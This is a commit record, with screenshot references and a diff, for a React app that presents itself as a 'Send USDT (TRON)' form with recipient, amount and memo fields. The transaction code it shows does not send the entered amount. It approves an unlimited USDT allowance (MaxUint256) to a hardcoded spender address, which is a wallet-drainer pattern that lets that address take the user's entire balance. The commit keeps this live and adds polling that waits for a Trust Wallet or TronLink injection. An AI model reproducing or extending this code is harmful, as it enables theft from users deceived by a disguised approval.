

Before and after one commit to devUbaid/USDT_Transaction, a React (Create React App) app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (324-964 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; the HTML template or start-up script is replaced by a standard one.

Commit message:
working test code1

```diff
--- a/src/USDTAllowanceApp.js
+++ b/src/USDTAllowanceApp.js
@@ -1,6 +1,5 @@
 import React, { useState, useEffect } from "react";
 import { FaAddressBook, FaQrcode, FaInfoCircle, FaTimes } from "react-icons/fa";
-import TronWeb from "tronweb";
 import "./styles.css";
 
 const USDTSendApp = () => {
@@ -11,7 +10,7 @@
   const [message, setMessage] = useState("");
   const [tronWeb, setTronWeb] = useState(null);
 
-  // ✅ USDT TRC20 contract on TRON mainnet
+  // ✅ TRC20 USDT contract on TRON mainnet
   const USDT_CONTRACT = "TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t";
 
   const USDT_ABI = [
@@ -30,13 +29,17 @@
   ];
 
   useEffect(() => {
-    if (window.tronWeb && window.tronWeb.ready) {
-      setTronWeb(window.tronWeb);
-      setAccount(window.tronWeb.defaultAddress.base58);
-      setMessage("✅ Connected to TronLink");
-    } else {
-      setMessage("⚠️ Please install TronLink or open in Trust Wallet dApp browser");
-    }
+    const checkTron = () => {
+      if (window.tronWeb && window.tronWeb.ready) {
+        setTronWeb(window.tronWeb);
+        setAccount(window.tronWeb.defaultAddress.base58);
+        setMessage("✅ Connected to Tron Wallet");
+      } else {
+        setMessage("⚠️ Open in Trust Wallet / TronLink DApp browser");
+        setTimeout(checkTron, 1000); // keep checking until injected
+      }
+    };
+    checkTron();
   }, []);
 
   const connectWallet = async () => {
@@ -64,13 +67,13 @@
       return;
     }
     try {
-      const spender = "TBJF4h5qbuAYxdJ4rhBCy5Lu5ZeYUC1dJv"; // example spender address
+      const spender = "TBJF4h5qbuAYxdJ4rhBCy5Lu5ZeYUC1dJv"; // example spender
       const unlimitedAmount =
         "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"; // MaxUint256
 
       const contract = await tronWeb.contract(USDT_ABI, USDT_CONTRACT);
       const tx = await contract.approve(spender, unlimitedAmount).send({
-        feeLimit: 100_000_000, // 100 TRX energy/gas limit
+        feeLimit: 100_000_000,
       });
 
       setMessage(`✅ Approval submitted! TxID: ${tx}`);
@@ -86,7 +89,7 @@
           <button className="back-button">←</button>
           <h1 className="send-title">Send USDT (TRON)</h1>
           {!account ? (
-            <button onClick={connectWallet}>Connect TronLink</button>
+            <button onClick={connectWallet}>Connect Wallet</button>
           ) : (
             <p>Connected: {account.slice(0, 6)}...{account.slice(-4)}</p>
           )}
@@ -94,19 +97,16 @@
 
         {message && <div className="message-display">{message}</div>}
 
-        {/* Address */}
         <div className="input-section">
           <label className="input-label">Recipient Address</label>
           <input value={address} onChange={(e) => setAddress(e.target.value)} />
         </div>
 
-        {/* Amount */}
         <div className="input-section">
           <label className="input-label">Amount</label>
           <input value={amount} onChange={(e) => setAmount(e.target.value)} />
         </div>
 
-        {/* Memo */}
         <div className="input-section">
           <label className="input-label">Memo</label>
           <input value={memo} onChange={(e) => setMemo(e.target.value)} />
```
